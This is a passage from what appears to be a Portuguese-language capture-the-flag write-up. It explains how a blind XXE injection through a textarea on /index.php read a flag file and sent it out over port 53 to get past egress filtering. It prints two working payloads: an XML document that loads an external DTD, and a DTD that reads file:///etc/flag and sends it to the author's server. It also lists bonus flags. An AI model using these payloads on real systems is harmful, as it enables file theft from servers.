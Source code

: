 Esse trecho carrega um XML que só era utilizado para debug, mas não foi descomentado). Tendo isso em vista, parecia possível realizar um Blind XXE Injection através da textarea presente na página */index.php*. 

O único problema é que o servidor do chall não permitia nenhuma conexão externa do tipo NEW, apenas ESTABILISHED, exceto na porta 53, destinada ao servidor DNS. Portanto, basta derrumar o servidor DNS da nossa máquina com: **sudo systemctl stop systemd-resolved** e subir o servidor local na porta 53. 

Feito isso, enviou-se o payload através do textarea (dando submit):
``` xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://<my-server-ip>:53/host.dtd">
<data>&send;</data>
```
*Payload I* - Enviado via campo content no POST do index.php

Ao carregar o XML no servidor do desafio, ele busca no nosso servidor local esse outro payload:
```
<!ENTITY % file SYSTEM "file:///etc/flag">
<!ENTITY % eval "<!ENTITY send SYSTEM 'http://<my-server-ip>:53/collect/%file;'>">
%eval;
```
*Payload II* - Mantido no servidor local para ser requisitado pelo servidor do chall via XXE pelo primeiro payload

Ao realizar a requisição GET *http://<my-server-ip>:53/collect/%file;*, é enviado o %file;, que contém a flag, para o nosso servidor local.



## Bonus

### The last Resort [READ FIRST]
`CTF-BR{br0adc4s7_#01_succe55fully_r3c31v3d}`

Só ler o enunciado e pegar a flag

### g00d b0y
`CTF-BR{RTFM_1s_4_g00d_3xpr3ss10n_v5.0}`

Desafio bônus, flag nas letras miúdas das regras.


